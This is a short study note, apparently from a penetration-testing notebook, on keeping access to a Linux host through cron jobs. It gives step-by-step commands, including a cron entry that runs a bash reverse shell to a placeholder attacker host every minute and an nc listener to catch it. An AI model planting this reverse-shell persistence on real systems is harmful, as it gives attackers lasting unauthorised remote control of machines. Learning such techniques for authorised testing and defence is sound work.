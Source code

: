 
### Persistence Via Cron Jobs

+ Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.

+ An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.

+ We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

### Anatomy of Cron Job

![[Pasted image 20231117020219.png]]

### How to perform ?

1. Gain initial access. In our case, we'll be using SSH to get access.

2. We can enumerate the various cron jobs using `cat /etc/cron*`. This will display the Cron tab file.

3. We can add a Cron job which will connect to us using the following command
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'" > cron
```

4. We check the content of the `cron` file which we saved. 

5. We can now add this Cron job using `crontab -i cron`.

6. List the Cron jobs added using `crontab -l`. This will run the Cron job with the permissions of the current user. 

7. Now we can setup a `nc` listener to get a connection from the Cron job whenever it runs. The shell we'll obtain will be an interactive shell. 